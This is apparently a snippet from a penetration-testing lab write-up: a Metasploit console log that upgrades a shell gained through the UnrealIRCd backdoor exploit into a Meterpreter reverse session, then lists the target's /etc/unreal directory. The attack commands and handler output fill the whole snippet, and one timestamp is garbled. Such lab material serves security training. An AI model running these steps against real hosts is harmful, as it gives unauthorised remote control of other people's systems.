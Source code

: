{{< highlight markdown >}}
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > use post/multi/manage/shell_to_meter
preter
msf post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the c
onnection
   LHOST                     no        IP of host that will receive the connection fro
m the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

msf post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf post(multi/manage/shell_to_meterpreter) > run
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.194.139:4433
[*] Sending stage (861480 bytes) to 192.168.194.136
[*] Meterpreter session 2 opened (192.168.194.139:4433 -> 192.168.194.136:55571) at 2$18-11-29 23:25:41 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
meterpreter > ls
Listing: /etc/unreal
====================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100600/rw-------  1365    fil   2012-05-20 14:08:45 -0400  Donation
100600/rw-------  17992   fil   2012-05-20 14:08:45 -0400  LICENSE
40700/rwx------   4096    dir   2012-05-20 14:08:45 -0400  aliases
101204/-w----r--  1175    fil   2012-05-20 14:08:45 -0400  badwords.channel.conf
101204/-w----r--  1183    fil   2012-05-20 14:08:45 -0400  badwords.message.conf
101204/-w----r--  1121    fil   2012-05-20 14:08:45 -0400  badwords.quit.conf
100700/rwx------  242894  fil   2012-05-20 14:08:45 -0400  curl-ca-bundle.crt
100600/rw-------  1900    fil   2012-05-20 14:08:45 -0400  dccallow.conf
40700/rwx------   4096    dir   2012-05-20 14:08:45 -0400  doc
101204/-w----r--  49552   fil   2012-05-20 14:08:45 -0400  help.conf
100600/rw-------  3785    fil   2018-11-29 23:01:17 -0500  ircd.log
100600/rw-------  6       fil   2018-11-29 22:47:44 -0500  ircd.pid
100600/rw-------  5       fil   2018-11-29 23:27:42 -0500  ircd.tune
40700/rwx------   4096    dir   2012-05-20 14:08:45 -0400  modules
40700/rwx------   4096    dir   2012-05-20 14:08:45 -0400  networks
101204/-w----r--  5656    fil   2012-05-20 14:08:45 -0400  spamfilter.conf
40700/rwx------   4096    dir   2018-11-29 22:47:41 -0500  tmp
100700/rwx------  4042    fil   2012-05-20 14:08:45 -0400  unreal
101204/-w----r--  3884    fil   2012-05-20 14:11:37 -0400  unrealircd.conf
